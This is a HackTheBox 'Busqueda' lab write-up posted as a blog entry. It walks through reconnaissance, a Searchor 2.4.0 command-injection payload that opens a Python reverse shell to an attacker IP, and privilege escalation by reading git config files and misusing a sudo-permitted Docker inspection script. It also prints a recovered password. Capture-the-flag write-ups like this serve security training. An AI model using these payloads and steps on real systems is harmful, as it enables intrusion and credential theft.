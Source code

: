 ```yaml
---
layout: post
title: HackTheBox Busqueda
subtitle: Busqueda WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - Linux
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-21-Busqueda/a73dbffe4ae24d783de043ae29185d39_MD5.jpeg)
## Target - 10.129.228.217
### Nmap
```bash
nmap -sC -sV -Pn -p- -oN Busqueda 10.129.228.217
```
![](/assets/images/posts/2025-03-21-Busqueda/b3817d553dd4d22d16cf8b0efa0f03c2_MD5.jpeg)
### WEB
```bash
# host 등록
echo "10.129.228.217 searcher.htb" | sudo tee -a /etc/hosts

# dir fuzz
gobuster dir -u searcher.htb -w /usr/share/wordlists/dirb/common.txt

# subdomain fuzz
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.searcher.htb" -u http://searcher.htb -fc 302

# opensource version
searchor 2.4.0
```
![](/assets/images/posts/2025-03-21-Busqueda/ae88064ccb2df41d3a185b7b1dd63698_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/d527baf6f626258ec6a5aefbdfb75d0f_MD5.jpeg)

### Searchor 2.4.0 Exploit
```bash
# https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
'),exec('import+socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.36",8000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")')#
```
![](assets/images/posts/2025-03-21-Busqueda/116033061580fae80a50f281c20e5c3c_MD5.jpeg)

### Privilege Escalator
```bash
# upgrade tty
python3 -c 'import pty; pty.spawn("/bin/bash")'

# 숨김 파일 찾기 
find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep svc

# cody == svc
cat /home/svc/.gitconfig

# web group 파일들 찾기
find / -group www-data -exec ls -ldb {} \; 2>/dev/null

# git config 열람
cat /var/www/app/.git/config

# svc : jh1usoih2bkjaspwe92
sudo -l
sudo /usr/bin/python3 /opt/scripts/system-checkup.py -h

# docker inspect : https://docs.docker.com/engine/cli/formatting/
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq .
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' mysql_db | jq .
```
![](/assets/images/posts/2025-03-21-Busqueda/9fbef62124fd4ea70270d25a9e5c24cf_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/19944986f62535d922b99895ec6831b6_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/83b4b2d1100c52bec7b0a8012af85436_MD5.jpeg)

![](/assets/images/posts/2025-03-21-Busqueda/04811c4fabbd651f3e83a6235188d013_MD5.jpeg)

![](/assets/images/posts/2025-03-21-Busqueda/664165d9e5013cf703cb01bb113f3af9_MD5.jpeg)![](/assets/images/posts/2025-03-21-Busqueda/1ea6a57afc343c3fef42ed16746a7e30_MD5.jpeg)
![](assets/images/posts/2025-03-21-Busqueda/9d0cfd2413ed62917f246c9ddb5ec3b6_MD5.jpeg)